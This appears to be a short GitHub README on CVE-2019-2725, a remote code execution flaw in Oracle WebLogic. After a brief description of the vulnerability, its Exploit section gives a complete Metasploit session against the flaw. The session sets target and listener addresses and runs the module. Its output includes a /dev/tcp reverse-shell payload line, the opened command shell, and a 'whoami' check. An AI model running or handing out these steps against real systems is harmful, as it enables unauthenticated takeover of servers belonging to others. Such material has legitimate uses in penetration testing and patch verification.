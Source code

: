 # CVE-2019-2725

CVE-2019-2725 - Oracle WebLogic WLS9-async Remote Code Execution

Vulnerability in the Oracle WebLogic Server component of Oracle Fusion Middleware (subcomponent: Web Services). Supported versions that are affected are 10.3.6.0.0 and 12.1.3.0.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise Oracle WebLogic Server. Successful attacks of this vulnerability can result in takeover of Oracle WebLogic Server.

## Exploit

```bash
msf5 use exploit/multi/misc/weblogic_deserialize_asyncresponseservice
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 10.10.10.13
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rport 7102
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set ssl true
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 10.10.10.1
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[+] 0<&218-;exec 218<>/dev/tcp/10.10.10.13/4444;sh <&218 >&218 2>&218
[*] Started reverse TCP handler on 10.10.10.1:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 1 opened (10.10.10.1:4444 -> 10.10.10.13:21207) at 2020-05-06 09:46:12 +0200

whoami
oracle
```

## References

- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-2725)
- [Oracle.com](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)
- [Tenable.com](https://www.tenable.com/cve/CVE-2019-2725)

